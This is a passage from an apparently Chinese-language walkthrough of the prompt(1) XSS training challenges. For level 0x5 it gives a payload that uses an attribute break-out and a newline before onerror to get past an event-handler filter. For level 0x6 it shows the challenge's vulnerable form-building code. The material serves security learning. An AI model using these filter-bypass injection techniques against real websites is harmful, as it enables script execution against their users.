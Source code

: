 这关过滤了`>`、`onxxxx=`、`focus`，可以用`"`闭合`value`，然后自定义`type="image"`，最后利用换行符绕过`onxxxx=`

payload:

```
" type="image" src=# onerror
="prompt(1)
```

------

### 0x6

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}
```

这关通过demo发现总共有`action`、`method`、`name`和`value`是可控的。

```html
<form action="http://httpbin.org/post" method="post"><input name="name" value="Matt"></form>                         
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script>
```
